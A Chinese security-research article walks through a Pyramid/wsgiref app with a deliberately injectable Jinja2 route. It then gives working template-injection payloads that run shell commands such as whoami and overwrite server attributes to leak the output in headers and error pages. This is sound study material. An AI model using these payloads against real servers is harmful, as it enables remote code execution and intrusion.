# wsgiref应用无回显详细调试研究-先知社区

> **来源**: https://xz.aliyun.com/news/16143  
> **文章ID**: 16143

---

## WSGI内存马无回显详细调试挖掘

**Pyramid** 是一个灵活且功能强大的 Python Web 框架，完全兼容 **WSGI**（Web Server Gateway Interface）。通过 WSGI，Pyramid 能够运行在任何 WSGI 兼容的 Web 服务器上（如 Gunicorn、uWSGI 等），并且可以通过中间件进行扩展和集成。  
测试demo如下

```
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
import re
import os


def shell_view(request):

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')

    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')

def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('shell', '/shell')
        # 注册视图
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
        return app

if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

### 响应包回显调试分析

我们调试跟进app的创建函数



审计**Pyramid** 框架的 WSGI 应用程序创建的代码

```
def make_wsgi_app(self):  
    """Commits any pending configuration statements, sends a  
    :class:`pyramid.events.ApplicationCreated` event to all listeners,    adds this configuration's registry to    :attr:`pyramid.config.global_registries`, and returns a    :app:`Pyramid` WSGI application representing the committed    configuration state."""    self.commit()  
    app = Router(self.registry)  

    # Allow tools like "pshell development.ini" to find the 'last'  
    # registry configured.    global_registries.add(self.registry)  

    # Push the registry onto the stack in case any code that depends on  
    # the registry threadlocal APIs used in listeners subscribed to the    # IApplicationCreated event.    self.begin()  
    try:  
        self.registry.notify(ApplicationCreated(app))  
    finally:  
        self.end()  

    return app

```

发现首先调用了commit方法提交配置变更提交所有挂起的配置语句，将此配置的注册表添加到 :attr:`pyramid.config.global_registries`，并返回一个 app:`Pyramid` WSGI 应用程序


app创建完成之后，调用`make_server`创建server服务程序

```
server = make_server('0.0.0.0', 6543, app)

```

跟进方法查看`make_server`源码

```
def make_server(  
    host, port, app, server_class=WSGIServer, handler_class=WSGIRequestHandler  
):  
    """Create a new WSGI server listening on `host` and `port` for `app`"""  
    server = server_class((host, port), handler_class)  
    server.set_app(app)  
    return server

```

我们注意到了类似flask无回显挖掘过程中的handler处理类：**WSGIRequestHandler**  
我们发送请求包调试跟进找到handle类



不断跟进，从run方法进入到finish\_response()



接着跟踪进入write方法和werkzeug的write几乎一样



进入send\_hearders方法调用



```
def send_headers(self):
"""Transmit headers to the client, via self._write()"""
self.cleanup_headers()
self.headers_sent = True
if not self.origin_server or self.client_is_modern():
    self.send_preamble()
    self._write(bytes(self.headers))

```

接入调入**send\_preamble**方法找到我们的最终点，可以看到**http\_version，status,server\_software**变量被写入响应头，那么我们覆盖这些变量不就可以回显了？



首先我们需要拿到handler类

```
wsgiref.simple_server.ServerHandler

```

> sys.modules是一个全局字典，该字典是python启动后就加载在内存中。每当程序员导入新的模块，sys.modules都将记录这些模块。字典sys.modules对于加载模块起到了缓冲的作用。当某个模块第一次导入，字典sys.modules将自动记录该模块。当第二次再导入该模块时，python会直接到字典中查找，从而加快了程序运行的速度。

我们可以先拿到sys再从模块中拿到wsgiref

```
{{lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler}}

```

然后设置变量属性进行回显

#### HTTP协议头回显

```
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,"http_version",lipsum.__globals__.__builtins__.__import__('os').popen('echo test').read())}}

```



#### Server字段回显

同样server\_software也可以用来回显

```
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,"server_software",lipsum.__globals__.__builtins__.__import__('os').popen('echo 111').read())}}

```



### HTTP错误回显

#### 500状态码

当我触发时页面回显如下字段

```
A server error occurred.  Please contact the administrator.

```

我们从源代码中搜索定位，发现是Basehandler的一个属性**error\_body**



注意`error_body`类型是`bytes`类型 ，所以我们可以对`read()`返回回来的数据实现encode转换

```
{{lipsum['__globals__']['__builtins__']['setattr']((((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']|attr('handlers')|attr('BaseHandler'),'error_body',lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']()['encode']())}}

{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,"error_body",lipsum.__globals__.__builtins__.__import__('os').popen('echo 111').read())}}

```

#### 404状态码

当我们访问不存在路由时会显示以下字段



根据关键词在源代码定位位置找到**pyramid.httpexceptions.HTTPNotFound类**



我们可以污染属性explanation来404回显

```
{{lipsum['__globals__']['__builtins__']['exec']("setattr(Not,'explanation',shell)",{"Not":((lipsum|attr('__spec__')|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['pyramid']['httpexceptions']['HTTPNotFound'],"shell":lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('echo 1a1')['read']()})}}

```

或者

```
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.pyramid.httpexceptions.HTTPNotFound,"explanation",lipsum.__globals__.__builtins__.__import__('os').popen('echo 111').read())}}

```

也可以覆盖属性title来回显

```
{{(lipsum['__globals__']['__builtins__']['exec'])("setattr(Not,'title',shell)",{"Not":(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['pyramid']['httpexceptions']['HTTPNotFound'],"shell":lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']()})}}

```

或者

```
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.pyramid.httpexceptions.HTTPNotFound,"title",lipsum.__globals__.__builtins__.__import__('os').popen('echo 111').read())}}

```


